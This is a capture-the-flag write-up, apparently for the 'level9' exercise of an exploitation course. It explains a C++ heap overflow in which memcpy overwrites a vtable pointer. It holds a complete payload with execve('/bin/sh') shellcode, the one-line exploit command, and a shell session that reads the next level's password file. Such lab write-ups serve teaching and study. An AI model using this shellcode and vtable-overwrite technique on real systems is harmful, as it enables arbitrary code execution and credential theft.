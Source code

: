 # Level 9

## Initial Context

- One file: `level9`

## Solving the Challenge

The executable expects one argument.

The program is written in `C++`.
It uses one class named `N`, that has an `vtable`.

The first argument is copied using a `memcpy` of which can be abused.

If run using `ltrace`, we can see two allocation of `N`.

```bash
$ ltrace ./level9 abc
...
operator new(108)               = 0x804a008
operator new(108)               = 0x804a078
strlen("abc")                   = 3
memcpy(0x0804a00c, "abc", 3)    = 0x0804a00c
...
```

These two allocation are only `112 bytes` off (or `0x70`).

The program uses a `vtable` that store the `operator+` function.
Meaning that the memory layout is:

| offset | name |
| --- | --- |
| 0 | N's vtable* |
| 4 | char[100] |
| 100 | int |

Even if this is opaque to the user, the `sizeof` is still impacted and an overwrite is still possible.

To access the `vtable`'s `operator+` field, we need to read the pointer twice. And that exactly what the `(b->operator+(*a).value)` at the end of the file will do.

We can craft the payload like this:

```python
# a's buffer + 4: the second jump
"\x10\xa0\x04\x08";

# shell code (same as level2)
+ "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

# padding of 80
+ "A" * 80

# a's buffer: the first jump
+ "\x0c\xa0\x04\x08"
```

Why a padding of `80 bytes`?

We have a total of `112 bytes` between the two `N` allocations. But the first `N`'s buffer is at `+4`, that means only `108 bytes` between `a's buffer` and `b's vtable pointer`.

The shell code is `24 bytes` long and the address for the second jump is `4 bytes` long. Leaving `80 bytes` of that we have to fill to specify for the first jump.

Let's send it to the vulnerable program:

```bash
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * 80 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
<flag>
```
